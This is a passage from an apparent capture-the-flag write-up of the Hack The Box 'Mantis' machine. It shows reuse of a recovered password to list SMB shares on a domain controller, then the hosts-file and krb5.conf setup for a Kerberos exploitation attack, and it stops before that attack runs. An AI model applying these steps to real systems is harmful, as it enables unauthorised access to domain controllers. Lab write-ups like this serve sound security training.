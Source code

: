 ```
NA    
Approved  
Approved  
NULL   
Sep  1 2017 01:45PM                NULL                NULL

(2 rows affected)

```

Excellent we have james' password. We already know that logging into the webapp as james just throws an exception. So let's test these credentials via SMB and see if they are valid Windows credentials.

```
root@kali:~/htb/mantis# smbclient -L 10.10.10.52/ -U james
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\james's password: 
Domain=[HTB] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share
```

Indeed they are valid. We can successfully list the shares on the machine. Having a quick look through `SYSVOL` we can see two Group Policy Objects but there's nothing of much use there.

## Exploitation

Our credentials won't give us a shell via `winexe` so we'll have to figure out another way. Since we know this is a domain controller perhaps we can exploit Kerberos to give us what we want. 

For detailed explanation on how the attack works check here: <http://adsecurity.org/?p=541>

There is an excellent write up on how to perform the attack remotely here: <http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html>

After installing the dependencies specified in the article and grabbing the latest version of `impacket` we are ready to go. Let's edit `/etc/hosts` and add in the domain controller.

```

127.0.0.1	localhost
127.0.1.1	kali
10.10.10.52	mantis.htb.local	mantis
```

Now we configure `/etc/krb5.conf`

```
libdefaults]
	default_realm = HTB.LOCAL

# The following krb5.conf variables are only for MIT Kerberos.
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true

[realms]
       HTB.LOCAL = {
	kdc = mantis.htb.local:88
	admin_server = mantis.htb.local
```